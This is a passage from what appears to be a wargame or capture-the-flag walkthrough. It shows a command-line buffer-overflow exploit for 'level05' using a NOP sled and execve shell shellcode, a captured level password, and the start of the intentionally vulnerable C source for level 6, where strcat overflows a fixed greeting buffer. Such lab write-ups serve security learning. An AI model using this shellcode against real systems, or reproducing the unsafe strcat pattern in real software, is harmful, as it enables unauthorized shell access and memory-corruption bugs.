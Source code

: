 ```
$ /levels/level05 `python -c 'print "\x90"*88+"\x31\xc0\x99\xb0\x0b\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x89\xe2\x53\x89\xe1\xcd\x80"+"\x90"*26+"\x70\xfd\xff\xbf"'`
```

```
$ cat /home/level6/.pass
fQ8W8YlSBJBWKV2R
```

# 6. Level 6

```
$ cat /levels/level06.c
```

```cpp
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

enum{
LANG_ENGLISH,
LANG_FRANCAIS,
LANG_DEUTSCH,
};

int language = LANG_ENGLISH;

struct UserRecord{
    char name[40];
    char password[32];
    int id;
};

void greetuser(struct UserRecord user){
    char greeting[64];
    switch(language){
        case LANG_ENGLISH:
            strcpy(greeting, "Hi "); break;
        case LANG_FRANCAIS:
            strcpy(greeting, "Bienvenue "); break;
        case LANG_DEUTSCH:
            strcpy(greeting, "Willkommen "); break;
    }
    strcat(greeting, user.name);
    printf("%s\n", greeting);
}

int main(int argc, char **argv, char **env){
    if(argc != 3) {
        printf("USAGE: %s [name] [password]\n", argv[0]);
        return 1;
    }

    struct UserRecord user = {0};
    strncpy(user.name, argv[1], sizeof(user.name));
    strncpy(user.password, argv[2], sizeof(user.password));

    char *envlang = getenv("LANG");
    if(envlang)
        if(!memcmp(envlang, "fr", 2))
            language = LANG_FRANCAIS;
        else if(!memcmp(envlang, "de", 2))
            language = LANG_DEUTSCH;
```